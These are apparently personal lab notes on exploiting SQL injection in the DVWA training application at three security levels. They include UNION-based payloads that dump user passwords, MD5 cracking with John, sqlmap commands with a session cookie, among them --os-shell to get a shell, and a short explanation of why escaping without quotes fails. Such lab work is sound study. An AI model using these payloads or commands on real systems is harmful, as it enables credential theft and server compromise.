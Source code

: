 ## Low
- For low we realised id parameter (GET) was vulnerable and could be easily injected.
```
a' UNION SELECT "lol", @@VERSION ; -- -
a' UNION SELECT "lol", @@VERSION ; -- #
```
- This payload easily worked.
- `a' UNION SELECT first_name, password from users; -- -` this one gave me passwords for all users
- ![[Pasted image 20210213092928.png]]
- To crack MD5 hash using John
	- ![[Pasted image 20210213102002.png]]
- Next thing I tired was **sqlmap**
- To find injectable parameter 
`sqlmap -u "http://192.168.0.105/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low;PHP  
SESSID=g832d5mrsta7pm9c1hug0bj8io"`
- To get shell
`sqlmap -u "http://192.168.0.105/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low;PHP  
SESSID=g832d5mrsta7pm9c1hug0bj8io" --os-shell`

## Medium
- Here we had `mysqli_real_escape_string` trying to sanitize the input. However this could be easily bypassed.
- Consider the following query:

```
$iId = mysql_real_escape_string("1 OR 1=1");    
$sSql = "SELECT * FROM table WHERE id = $iId";
```

`mysql_real_escape_string()` will not protect you against this. **The fact that you use single quotes (`' '`) around your variables inside your query is what protects you against this.** The following is also an option:

```
$iId = (int)"1 OR 1=1";
$sSql = "SELECT * FROM table WHERE id = $iId";
```
- My payload : `1 OR 1=1 UNION SELECT first_name, password from users;-- -`
- ![[Pasted image 20210213103145.png]]


## High 
- Here instead of GET request parameters they used Session variables. Well same thing as low to be honest. Same payload worked ez pz.
- `a' UNION SELECT first_name, password from users; -- -`
- ![[Pasted image 20210213111511.png]]
